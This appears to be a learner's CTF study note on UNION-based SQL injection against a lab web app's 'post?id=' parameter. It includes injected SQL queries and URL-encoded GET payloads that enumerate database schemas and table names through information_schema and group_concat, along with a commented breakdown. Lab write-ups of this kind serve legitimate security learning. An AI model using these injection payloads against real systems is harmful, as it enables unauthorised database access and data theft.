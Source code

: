 Al explains it may look like this:
```sql
-- the id param is used at the end of query like this:
SELECT id,name,author, content FROM posts WHERE id=<id param>;
-- 
SELECT id,name,author, content FROM posts WHERE id=1 UNION SELECT 1,2,3,4;
-- Look if any appear is printed onto the page
SELECT id,name,author, content FROM posts WHERE id='id','Al','root','kekw';
```
Tiberious explain another *tib bit* try the zero page. The reason being is the first query of the UNION is empty so the only row is ours. 

Inital result of the parameter had to be invalid
![1080](idididid.png)

![](mappingoutwheretoprint.png)

Al tries of database version
![1080](characterproblem.png)

[Swedish Character Set](https://stackoverflow.com/questions/3029321/troubleshooting-illegal-mix-of-collations-error-in-mysql), but Tiberious is the chat again:
![1080](buttibsisinthechat.png)

May need to try out Tiberious's Web App course...

```sql
database()
version()
user()
```

Pentest Monkey has issue with quotes. I fixed this and

```
GET /post?id=100+UNION+ALL+SELECT+'1',concat(table_schema,'+:+',table_name),database(),'4'+FROM+informational_schema.tables+WHERE+table_schema%2b!%253d%2b'mysql'+AND+table_schema+!%253d%2b'information_schema'--%2b-+ 
```

[Al](https://www.youtube.com/watch?v=MpJasg3IQNI&t=4322s)

Returning with a banging headache and banging desire to recompres and absord all the SQL I can
```sql
-- 
/post?id=100+UNION+ALL+SELECT+'0',group_concat(table_schema, '+:+',table_name),'kekw','TiberiousIsRightAgain'+FROM+information_schema.tables+WHERE+table_schema+!%3d+'mysql'+AND+table_schema+!%3d+'information_schema'--+-
```

I had the right idea about the group_concat() originally when attempted
![1080](schemandtablename.png)

Al uses the information schema to get all the tables names; here is my breakdown
```sql
-- contatenate info from these fields
-- Table schema is the map of the tables
--  table 
group_concat(table_schema, '+:+',table_name)
-- From the `tables` of the `schema` 
FROM+information_schema.tables
-- At this point of the query we have all the tables, but we do not want 
-- mysql the defulat table_name and the information schema
-- leaving just the custom tables names
+WHERE+table_schema+!%3d+'mysql'+AND+table_schema+!%3d+'information_schema'--+-
-- So for each line of the remain tables print:
-- $table_schema : $table_name
-- sqhell_5  : flag
```